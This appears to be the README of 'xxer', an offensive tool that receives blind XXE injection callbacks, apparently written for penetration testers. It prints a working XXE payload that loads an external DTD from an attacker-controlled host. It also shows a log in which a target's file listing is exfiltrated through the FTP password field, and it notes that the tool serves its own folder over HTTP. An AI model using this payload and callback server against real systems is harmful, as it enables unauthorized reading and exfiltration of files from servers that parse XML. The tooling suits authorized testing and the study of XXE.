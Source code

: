 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?
